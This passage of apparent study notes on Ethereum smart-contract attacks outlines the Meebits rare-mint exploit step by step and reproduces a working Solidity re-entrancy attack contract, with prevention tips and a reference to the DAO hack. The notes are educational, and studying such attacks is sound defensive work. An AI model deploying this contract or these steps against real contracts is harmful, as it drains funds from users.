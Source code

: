 Attacker would do the following:
1. Create contract with the official meebit contract as a parameter. Attacker address would now be set as owner
1. Call addMeebit for all the rare meebits he would accept
1. Call deposit in a transaction where message.value is 1 eth (this will be used to pay the miners later). This is then deposited to the contract address
1. Create transaction against mintMeebit. If the meebit returned from the official contract was not added from addMeebit, the require statement would roll back the transaction. If the transaction was on the list, he'd use ´block.coinbase.call´ to raise the gas provided for the transaction to 1ETH
1. Retrieve any extra deposited ETH to the contract via recover (10ETH was recovered by attacker)



## Attack - Re-entrancy
[https://solidity-by-example.org/hacks/re-entrancy/](https://solidity-by-example.org/hacks/re-entrancy/)

```
contract Attack {
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Fallback is called when EtherStore sends Ether to this contract.
    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw(1 ether);
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw(1 ether);
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

Preventative techniques:
- Ensure all state changes happen before calling external contracts
- Use function modifiers that prevent re-entrancy

Example of attack:
- [The DAO Attack](https://www.coindesk.com/understanding-dao-hack-journalists)

## Attack - Overflow
[https://solidity-by-example.org/hacks/overflow/](https://solidity-by-example.org/hacks/overflow/)
